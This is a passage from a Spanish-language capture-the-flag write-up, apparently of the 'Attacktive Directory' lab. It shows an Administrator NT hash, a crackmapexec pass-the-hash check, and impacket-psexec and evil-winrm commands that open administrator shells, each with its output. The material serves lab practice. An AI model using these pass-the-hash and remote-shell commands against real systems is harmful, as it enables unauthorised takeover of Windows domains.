 Tenemos el hash nt del usuairo `Administrator` que es el mas interesante asi que vamos a comprobar si es valido

`Administrator:0e0363213e37b94221497260b0bcb4fc`

Nos da `Pwn3d!`

```bash
❯ crackmapexec smb 10.10.220.144 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [*] Windows 10.0 Build 17763 x64 (name:ATTACKTIVEDIREC) (domain:spookysec.local) (signing:True) (SMBv1:False)
SMB         10.10.220.144   445    ATTACKTIVEDIREC  [+] spookysec.local\Administrator:0e0363213e37b94221497260b0bcb4fc (Pwn3d!)
```

Asi que ahora nos podemos conectar con `psexec` o con `evilwinrm` en mi caso para mi es mas comodo `evilwinrm` pero mostrare las 2 formas

## Shell como Administrator 
```bash
❯ impacket-psexec WORKGROUP/Administrator@10.10.220.144 -hashes :0e0363213e37b94221497260b0bcb4fc
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

[*] Requesting shares on 10.10.220.144.....
[*] Found writable share ADMIN$
[*] Uploading file hyGRKAAP.exe
[*] Opening SVCManager on 10.10.220.144.....
[*] Creating service mfPN on 10.10.220.144.....
[*] Starting service mfPN.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1490]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

```bash
❯ evil-winrm -i 10.10.220.144 -u Administrator -H 0e0363213e37b94221497260b0bcb4fc

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
thm-ad\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\Users
*Evil-WinRM* PS C:\Users> 


```
